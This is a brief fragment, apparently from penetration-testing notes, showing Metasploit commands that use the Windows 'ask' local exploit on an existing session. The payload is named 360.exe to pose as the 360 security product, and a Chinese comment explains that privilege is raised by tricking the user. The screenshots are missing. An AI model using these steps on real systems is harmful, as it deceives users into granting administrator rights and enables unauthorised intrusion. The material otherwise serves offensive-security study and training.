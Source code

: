 ```
use exploit/windows/local/ask
set filename 360.exe
set session 2
exploit
```

![image-20230105053453342](../../images//image-20230105053453342.png)

![image-20230105053524784](../../images//image-20230105053524784.png)

通过诱骗的方式进行提权。

![image-20230105053630773](../../images//image-20230105053630773.png)

